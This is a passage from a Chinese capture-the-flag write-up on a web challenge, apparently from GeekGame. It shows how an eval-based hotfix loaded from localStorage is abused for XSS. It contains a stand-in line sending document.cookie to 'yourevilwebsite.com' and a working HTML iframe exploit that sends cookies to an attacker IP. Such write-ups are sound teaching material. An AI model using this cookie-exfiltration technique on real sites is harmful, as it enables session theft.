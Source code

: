 但再仔细看看`APPSWITCHER_ITEMS`，发现里面有一项名字叫`fix`不知道是用来干什么的，所以搜索一下看看相关代码，发现这竟然是用`eval`来实现的hotfix功能：
```js
{
    key: "check_fix",
    value: function check_fix() {
        var _this2 = this;
        this.state.apps && this.state.apps.fix && this.state.apps.fix[this.props.appid] && setTimeout(function() {
            window.HOTFIX_CONTEXT = {
                build_info: "211007152046-GEEKGAME",
                build_env: "production"
            },
            eval(_this2.state.apps.fix[_this2.props.appid])
        }, 1)
    }
}
```
这里`_this2.state.apps.fix`即从`localStorage.APPSWITCHER_ITEMS.switch_2.fix`中加载而来，那么只要填入`window.location.href = "http://yourevilwebsite.com/" + document.cookie`就万事大吉了。

但这里还有两个比较严重的细节问题：
 1. 通过访问网址、触发搜索来设置的`localStorage.APPSWITCHER_ITEMS`无法立即生效，并且500毫秒之后就会有正确的数据将其覆盖，所以必须要在这段时间之间再触发另一访问，以使`localStorage.APPSWITCHER_ITEMS`在这次会话中发挥作用。
 2. 搜索使用`//setflag XXX=YYY`会产生消息框（即`alert()`），这会阻塞javascript代码的执行最终导致无法得到flag。

我最开始的想法是直接放两个`<iframe sandbox="allow-scripts allow-same-origin"></iframe>`，因为没有加`allow-modals`所以不能创建弹窗，可以解决第二个问题。同时两个`iframe`短时间内先后加载可以解决第一个问题，这个做法交到服务器上产生了一些意料之外的错误，随后我使用Selenium本机模拟发现原因是`iframe`内网站读取`document.cookie`会读取到空值（原因见[这里](https://web.dev/samesite-cookies-explained/)，感谢命题人@xmcp 补充），所以只能另寻它法。

最终我首先开一个`iframe`进行Q小树洞的搜索同时屏蔽弹窗，在400毫秒后直接把网站重定向到Q小树洞主页，这样被插入的`localStorage.APPSWITCHER_ITEMS`将会生效，随即达成任意javascript代码的执行。

```html
<html>
  <head>
    <script>
      setTimeout(() => { window.location.href = 'https://prob15-qkuhole.geekgame.pku.edu.cn/hole/' }, 400);
    </script>
  </head>
  <body>
    <iframe sandbox="allow-scripts allow-same-origin" src="https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#%2F%2Fsetflag%20APPSWITCHER_ITEMS={%22switcher_2%22:{%22bar%22:[],%22dropdown%22:[],%22fix%22:{%22hole%22:%22window.location.href=%5C%22http://10.1.X.Y:8000/flag/%5C%22+encodeURIComponent(document.cookie)%22}}}">
    </iframe>
  </body>
</html>
```

## Flag即服务
